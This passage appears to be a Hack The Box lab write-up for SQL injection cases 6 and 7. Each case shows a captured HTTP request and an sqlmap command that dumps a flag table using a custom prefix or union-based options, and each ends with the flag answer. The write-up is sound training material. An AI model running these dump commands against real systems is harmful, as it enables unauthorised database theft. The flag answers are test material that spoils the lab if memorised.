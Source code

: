 

**What's the contents of table flag6? (Case #6)**

We capture the request and save under name r6:

```bash
GET /case6.php?col=id HTTP/1.1
Host: 94.237.63.92:51270
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.63.92:51270/case6.php
Cookie: filemanager=4umv9nhasf1ebkuap971gk9jae
Upgrade-Insecure-Requests: 1

```

And now we use the following prefix: 

```bash
sqlmap -r r6 --batch --dump -T flag6 --level=5 --risk=3 --prefix='`)'  
```

Results: HTB{v1nc3_mcm4h0n_15_4570n15h3d}


**What's the contents of table flag7? (Case #7)**

We capture the request and save under name r7:

```bash
GET /case7.php?id=1 HTTP/1.1
Host: 94.237.63.92:51270
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.63.92:51270/case7.php
Cookie: filemanager=4umv9nhasf1ebkuap971gk9jae
Upgrade-Insecure-Requests: 1


```

The  `--no-cast` flag disables automatic type casting of data. When enabled, `sqlmap` tries to cast data types (e.g., converting strings to integers), which might not be necessary or could lead to incorrect results. Disabling it can sometimes provide more accurate outcomes.

```bash
sqlmap -r r7 --batch --dump -T flag7 --level=5 --risk=3 -p id --technique=U --fresh-queries  --union-cols=5 --no-cast
```

Results: HTB{un173_7h3_un173d}
